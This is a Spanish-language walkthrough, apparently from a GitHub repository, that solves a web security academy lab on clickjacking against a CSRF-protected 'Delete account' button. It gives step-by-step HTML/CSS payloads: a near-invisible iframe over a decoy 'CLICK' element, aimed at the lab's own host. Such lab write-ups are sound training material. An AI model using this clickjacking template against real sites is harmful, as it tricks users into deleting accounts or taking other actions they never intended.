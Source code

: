 # Lab: Basic clickjacking with CSRF token protection

This lab contains login functionality and a delete account button that is protected by a CSRF token. A user will click on elements that display the word "click" on a decoy website.

To solve the lab, craft some HTML that frames the account page and fools the user into deleting their account. The lab is solved when the account is deleted.

You can log in to your own account using the following credentials: `wiener:peter`

`Note`: The victim will be using Chrome so test your exploit on that browser.

![Practitioner](https://img.shields.io/badge/level-Apprentice-green) 

---

Iniciamos el laboratorio y nos encontramos con un blog público:
![image](https://github.com/user-attachments/assets/4ffa4b57-b5df-4487-b5ff-9dda4fa0cea9)

Nosotros sabemos que este laboratorio tiene una funcionalidad de autenticación y que tiene un botón `Delete account` el cual debemos utilizar para que el usuario víctima elimine su cuenta mediante `Clickjacking`.

Nos autenticamos con nuestras credenciales `wiener:peter` y en el dashboard del usuario nos encontramos con el botón `Delete account`:
![image](https://github.com/user-attachments/assets/509e80c1-90ae-4260-b2a0-ecfa62034389)

Entonces la idea es engañar a un usuario para que haga clic en un elemento visible que muestra la palabra `click`, mientras un botón real (`Delete account`) del sitio objetivo se encuentra oculto detrás, embebido en un iframe casi transparente y alineado perfectamente con ese texto.

Accedemos al exploit server del laboratorio, que simula un sitio web alojado por nosotros:
![image](https://github.com/user-attachments/assets/514dc04f-5e9d-4952-91dd-0f2c40cc10fd)

Si hacemos click en `View exploit` seremos capaces de ver el contenido de nuestro sitio web:
![image](https://github.com/user-attachments/assets/2de4b3bc-2917-4c59-821f-231b080acf8f)

Vamos a utilizar un `iframe`, que es un elemento HTML que permite cargar otra página web dentro del documento actual. Ya lo vimos en laboratorios anteriores: el `iframe` incrusta contenido remoto, como si fuera una ventana dentro del sitio atacante.

Vamos a ir haciendo pruebas para analizar cómo va cambiando el código y el resultado que arroja. 

Comenzamos insertando el siguiente código en nuestra página:
```html
<iframe src="https://0aef009e0453d5f282da6b77000a0060.web-security-academy.net/my-account"></iframe>
```
Esto genera un cuadro embebido que carga la página especificada en el atributo `src`. Podemos ver visualmente que el contenido del `iframe` corresponde al dashboard del usuario:
![image](https://github.com/user-attachments/assets/c9df01fc-50a8-44f4-8875-eb0d31100bde)

Ahora procedemos a darle estilo al `iframe`:
```html
<style>
  iframe {
    position: relative;
    width: 1000px;
    height: 700px;
    opacity: 0.1;
    z-index: 2;
  }
</style>

<iframe src="https://0aef009e0453d5f282da6b77000a0060.web-security-academy.net/my-account"></iframe>

```

Vemos que se agrandó el `iframe`, incluso si acercamos el mouse sobre un elemento vemos que cambia el ícono, lo que nos da la pauta de que tenemos interacción con los elementos, es decir, los botones siguen funcionando por más que sean casi transparentes.

Ahora vamos a agregar un botón:

```html
<style>
  iframe {
    position: relative;
    width: 1000px;
    height: 700px;
    opacity: 0.1;
    z-index: 2;
  }
  div {
    position: absolute;
    top: 100px;
    left: 100px;
    z-index: 1;
  }
</style>

<div>click</div>
<iframe src="https://0aef009e0453d5f282da6b77000a0060.web-security-academy.net/my-account"></iframe>
```

Nosotros podemos ver el elemento `click`:
![image](https://github.com/user-attachments/assets/e742c0d5-1107-4742-b25d-7f712b948ce4)

La idea ahora es ir probando hasta encontrar la configuración de modo tal que el elemento `click` quede superpuesto al botón `Delete account`. Luego de varias pruebas encontramos que la configuración correcta es la siguiente:
```html
<style>
  iframe {
    position: relative;
    width: 1000px;
    height: 700px;
    opacity: 0.1;
    z-index: 2;
  }
  div {
    position: absolute;
    top: 515px;
    left: 60px;
    z-index: 1;
  }
</style>

<div>CLICK</div>
<iframe src="https://0aef009e0453d5f282da6b77000a0060.web-security-academy.net/my-account"></iframe>
```

![image](https://github.com/user-attachments/assets/97c77e35-9026-4ac1-a168-f7ea83709db6)

Ahora procedemos a bajar la transparencia de modo que el `iframe` quede casi imperceptible:
```html
<style>
  iframe {
    position: relative;
    width: 1000px;
    height: 700px;
    opacity: 0.000001;
    z-index: 2;
  }
  div {
    position: absolute;
    top: 515px;
    left: 60px;
    z-index: 1;
  }
</style>

<div>CLICK</div>
<iframe src="https://0aef009e0453d5f282da6b77000a0060.web-security-academy.net/my-account"></iframe>
```
De modo tal que si la víctima visita esta página, verá lo siguiente:
![image](https://github.com/user-attachments/assets/edca2881-3f92-40ca-9583-0aceacf2d34b)

Como el valor de `z-index` del elemento `click` es menor al del elemento `iframe`, cuando el usuario haga click en `CLICK`, en realidad va a estar haciendo click sobre el botón `Delete account` del `iframe`.

En el exploit server hacemos click en `Store` y luego en `Deliver exploit to victim` para resolver el laboratorio:


